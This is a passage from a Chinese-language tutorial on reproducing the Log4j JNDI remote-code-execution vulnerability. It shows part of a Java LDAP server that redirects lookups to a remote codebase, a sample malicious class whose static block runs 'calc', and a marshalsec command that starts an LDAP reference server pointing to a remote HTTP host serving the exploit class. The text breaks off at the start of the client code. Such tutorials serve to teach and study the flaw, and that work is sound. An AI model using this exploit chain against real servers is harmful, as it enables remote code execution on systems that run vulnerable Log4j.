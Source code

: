                 }
            }

            protected void sendResult(InMemoryInterceptedSearchResult result, String base, Entry e) throws MalformedURLException, LDAPException {
                URL url = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
                System.out.println("Send LDAP reference result for " + base + " redirecting to " + url);
                e.addAttribute("javaClassName", "Calc");
                String cbString = this.codebase.toString();
                int refPos = cbString.indexOf('#');
                if (refPos > 0){
                    cbString = cbString.substring(0, refPos);
                }
                e.addAttribute("javaCodeBase", cbString);
                e.addAttribute("objectClass", "javaNamingReference");
                e.addAttribute("javaFactory", this.codebase.getRef());
                result.sendSearchEntry(e);
                result.setResult(new LDAPResult(0, ResultCode.SUCCESS));

            }
        }
    }

    ```

2. 如果 JNDI 客户端，在 LDAP 服务中找不到对应的资源时，就会去指定的地址（如上代码中的`EXPLOIT_CLASS_URL`）请求。如果是命名引用，就会将这个文件（`Exploit.class`）下载到本地

3. 如果下载的 `.class` 文件包含无参构造函数或静态方法块，加载的时候就会自动执行，从而产生注入漏洞。
    ```java
    public class Expoit {
        static {
            try {
                Runtime.getRuntime().exec("calc");
            } catch (Exception e) {

            }
        }
    }
    ```

## Log4j RCE 漏洞复现

### 环境准备

- 基础开发环境
    - JDK 1.8.191 以下
- 远程代码
    - `Exploit.class` 恶意文件
    - HTTP 服务器
- LDAP 服务端
    - 本地启动。同上（需要将远程地址配置在服务端代码中）
    - 远程启动。
        可以借用 `marshalsec` 在远程服务器启动一个 LDAP 服务（远程地址作为参数配置在命令中）
        `java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.xxx.xxx:80/#Exploit 7389`
- LDAP 客户端（Log4j 利用）
    ```java
    import org.apache.logging.log4j.LogManager;
    import org.apache.logging.log4j.Logger;
